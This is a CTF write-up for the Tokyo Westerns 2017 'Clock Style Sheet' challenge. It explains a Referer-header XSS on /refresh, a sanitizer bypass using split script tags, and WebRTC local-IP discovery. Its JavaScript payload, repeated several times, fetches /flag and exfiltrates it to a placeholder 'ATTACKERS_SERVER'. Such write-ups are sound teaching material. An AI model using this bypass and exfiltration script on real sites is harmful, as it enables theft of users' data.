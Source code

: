 ```yaml
---
title: Tokyo Westerns CTF 2017 – Clock Style Sheet writeup
author: tyage
type: posts
date: 2017-09-05T01:34:28+00:00
url: /?p=1043
wp-syntax-cache-content:
  - |
    a:4:{i:1;s:474:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">&lt;!doctype html&gt;
    &lt;html&gt;
      &lt;meta http-equiv=&quot;refresh&quot; content=&quot;0;URL=blahblahblah&quot;&gt;&lt;&quot;&gt;</pre></td></tr></table><p class="theCode" style="display:none;">&lt;!doctype html&gt;
    &lt;html&gt;
      &lt;meta http-equiv=&quot;refresh&quot; content=&quot;0;URL=blahblahblah&quot;&gt;&lt;&quot;&gt;</p></div>
    ";i:2;s:514:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">&lt;!doctype html&gt;
    &lt;html&gt;
      &lt;meta http-equiv=&quot;refresh&quot; content=&quot;0;URL=&quot;&gt;&lt;script&gt;alert()&lt;/script&gt;&quot;&gt;</pre></td></tr></table><p class="theCode" style="display:none;">&lt;!doctype html&gt;
    &lt;html&gt;
      &lt;meta http-equiv=&quot;refresh&quot; content=&quot;0;URL=&quot;&gt;&lt;script&gt;alert()&lt;/script&gt;&quot;&gt;</p></div>
    ";i:3;s:1008:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">&lt;script&gt;
    payload = `&quot;&gt;&lt;scrona=ipt&gt;
    getFlag = async () =&gt; {
      content = await fetch('/flag');
      await fetch('http://ATTACKERS_SERVER/' + btoa(await content.text()));
    };
    getFlag()
    &lt;/scrona=ipt&gt;
    `;
    history.pushState({}, &quot;&quot;, &quot;a.html?a=&quot; + encodeURIComponent(payload));
    location.href = 'http://css.chal.ctf.westerns.tokyo/refresh';
    &lt;/script&gt;</pre></td></tr></table><p class="theCode" style="display:none;">&lt;script&gt;
    payload = `&quot;&gt;&lt;scrona=ipt&gt;
    getFlag = async () =&gt; {
      content = await fetch('/flag');
      await fetch('http://ATTACKERS_SERVER/' + btoa(await content.text()));
    };
    getFlag()
    &lt;/scrona=ipt&gt;
    `;
    history.pushState({}, &quot;&quot;, &quot;a.html?a=&quot; + encodeURIComponent(payload));
    location.href = 'http://css.chal.ctf.westerns.tokyo/refresh';
    &lt;/script&gt;</p></div>
    ";i:4;s:1018:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">&lt;script&gt;
    payload = `&quot;&gt;&lt;scrona=ipt&gt;
    getFlag = async () =&gt; {
      content = await fetch('/flag');
      await fetch('http://ATTACKERS_SERVER/' + btoa(await content.text()));
    };
    getFlag()
    &lt;/scrona=ipt&gt;
    `;
    history.pushState({}, &quot;&quot;, &quot;a.html?a=&quot; + encodeURIComponent(payload));
    location.href = 'http://192.168.0.4/refresh'; // this line changed
    &lt;/script&gt;</pre></td></tr></table><p class="theCode" style="display:none;">&lt;script&gt;
    payload = `&quot;&gt;&lt;scrona=ipt&gt;
    getFlag = async () =&gt; {
      content = await fetch('/flag');
      await fetch('http://ATTACKERS_SERVER/' + btoa(await content.text()));
    };
    getFlag()
    &lt;/scrona=ipt&gt;
    `;
    history.pushState({}, &quot;&quot;, &quot;a.html?a=&quot; + encodeURIComponent(payload));
    location.href = 'http://192.168.0.4/refresh'; // this line changed
    &lt;/script&gt;</p></div>
    ";}
categories:
  - CTF

---
```

<h2>Overview</h2>
<p>Problem page:<br />
<a href="http://css.chal.ctf.westerns.tokyo/">http://css.chal.ctf.westerns.tokyo/</a></p>
<p>Provided source code:<br />
<a href="https://twctf2017.azureedge.net/attachments/proxy.py-6cac125d5b78cd89658bacf820c439e9c964bad1feedb8a97e4396fe2bd3434d">proxy.py</a><br />
<a href="https://twctf2017.azureedge.net/attachments/sanitizer.py-39beede4e84efe18734390619ac0d6a14e978aa90fac7f4bae7b6c6a17d108ff">sanitizer.py</a></p>
<p>There are 4 pages: /, /refresh, /chrowler, /flag.</p>
<p>When we access /flag, it responses <code>only local IP is allowed. (your IP: 110.3.193.114)</code>.<br />
So, we should use /chrowler (crawler using Chrome) to get the content in /flag.</p>
<h2>Find XSS</h2>
<p>Next, we search XSS and found /refresh has it. (We found the vulnerability when browsing with w3m)<br />
In this page, user will be redirected to the page where he or she is (which represented by Referer header).</p>
<p><code>curl -H 'Referer: blahblahblah"><' http://css.chal.ctf.westerns.tokyo/refresh</code></p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">&lt;!doctype html&gt;
&lt;html&gt;
  &lt;meta http-equiv=&quot;refresh&quot; content=&quot;0;URL=blahblahblah&quot;&gt;&lt;&quot;&gt;</pre></td></tr></table></div>

<p>And the Referer is sanitized with <code>htmlsanitize</code> but it is bypassed as below:</p>
<p><code>curl -H 'Referer: "&gt;&lt;sona=cript&gt;alert()&lt;/sona=cript&gt;' http://css.chal.ctf.westerns.tokyo/refresh</code></p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">&lt;!doctype html&gt;
&lt;html&gt;
  &lt;meta http-equiv=&quot;refresh&quot; content=&quot;0;URL=&quot;&gt;&lt;script&gt;alert()&lt;/script&gt;&quot;&gt;</pre></td></tr></table></div>

<h2>Exploit XSS</h2>
<p>In proxy which is used by crawler, <code>urlsanitize</code> is used.<br />
Crawler can not access to <code>http://attacker/?"&gt;&lt;script&gt;alert()&lt;/script&gt;</code>.<br />
So another technique is required to exploit XSS.</p>
<p>We use <code>history.pushState</code> to set attack code in Referer.</p>
<p>After crawler access the page below, it sends the contents of /flag.</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">&lt;script&gt;
payload = `&quot;&gt;&lt;scrona=ipt&gt;
getFlag = async () =&gt; {
  content = await fetch('/flag');
  await fetch('http://ATTACKERS_SERVER/' + btoa(await content.text()));
};
getFlag()
&lt;/scrona=ipt&gt;
`;
history.pushState({}, &quot;&quot;, &quot;a.html?a=&quot; + encodeURIComponent(payload));
location.href = 'http://css.chal.ctf.westerns.tokyo/refresh';
&lt;/script&gt;</pre></td></tr></table></div>

<h2>Local IP Detection</h2>
<p>But the content which is send by crawler is: <code>only local IP is allowed. (your IP: 104.215.63.152)</code></p>
<p>What to do next?<br />
Access to localhost of crawler? No.</p>
<p>After some trials, we tried to detect local IP address of crawler and web server with WebRTC.<br />
( WebRTC is useful technique to detect local IP address: <a href="https://github.com/diafygi/webrtc-ips">https://github.com/diafygi/webrtc-ips</a> )</p>
<p>It turns out that crawler is <code>192.168.0.5</code> and web server is <code>192.168.0.4</code>.</p>
<p>We fixed the attack code.</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">&lt;script&gt;
payload = `&quot;&gt;&lt;scrona=ipt&gt;
getFlag = async () =&gt; {
  content = await fetch('/flag');
  await fetch('http://ATTACKERS_SERVER/' + btoa(await content.text()));
};
getFlag()
&lt;/scrona=ipt&gt;
`;
history.pushState({}, &quot;&quot;, &quot;a.html?a=&quot; + encodeURIComponent(payload));
location.href = 'http://192.168.0.4/refresh'; // this line changed
&lt;/script&gt;</pre></td></tr></table></div>

<p>And finally we got flag!</p>
<p><code>TWCTF{cl0ck-cr4ck-c1ick}</code></p>
